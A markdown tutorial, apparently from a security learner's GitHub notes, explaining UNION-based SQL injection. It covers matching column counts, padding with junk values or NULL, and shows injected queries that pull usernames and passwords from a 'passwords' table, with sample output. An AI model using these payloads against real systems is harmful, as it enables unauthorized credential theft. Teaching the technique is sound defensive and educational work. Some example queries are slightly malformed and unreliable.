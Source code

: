 # Sqli
## @Author : M3tr1c_r00t
### Union Clause
Is used to combine results from multiple SELECT statements. With this, we will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases. 
```
mysql> SELECT * FROM ports UNION SELECT * FROM ships;
```
Some of the rows belong to the ports table while others belong to the ships table.

__Note:__ The data types of the selected columns on all positions should be the same.
### Union on Same No of Columns

A UNION statement can only operate on SELECT statements with an equal number of columns.

If we attempt to UNION two queries that have results with a different number of columns, we get an error.
```
mysql> SELECT city FROM ports UNION SELECT * FROM ships;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

Once we have two queries that return the same number of columns, we can use the UNION operator to extract data from other tables and databases.
```
SELECT * FROM products WHERE product_id = ‘user_input’
```
We can inject a UNION query into the input, such that rows from another table are returned:
```
SELECT * from products where product_id = ‘1’ UNION SELECT username, password from passwords—‘
```
This would return username and password entries from the passwords table, assuming the products table has two columns.

### Un-even Columns
Suppose we only had one column. In that case, we want to SELECT, we can put junk data for the remaining required columns so that the total number of columns we are UNIONing with remains the same as the original query.

We can use any string as our junk data, and the query will return the string as its output for that column. 

If we UNION with the string “junk”, the SELECT query would be SELECT “junk” from passwords, which will always return junk. 

We can also use numbers. For example, the query SELECT 1 from passwords will always return 1 as the output.

__Note:__ When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error.

__**Tip:**__ For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

So we have to UNION with two columns. If we only wanted to get one column ‘e.g. username’, we have to do username, 2, such that we have the same number of columns:
```
SELECT * from products where product_id = ‘1’ UNION SELECT username, 2 from passwords
```
If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. 
```
UNION SELECT username, 2, 3, 4 from passwords—‘
```
This would return:
```
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords—‘

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```
As we can see, our wanted output of the ‘UNION SELECT username from passwords’ query is found at the first column of the second row, while the numbers filled the remaining columns.

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
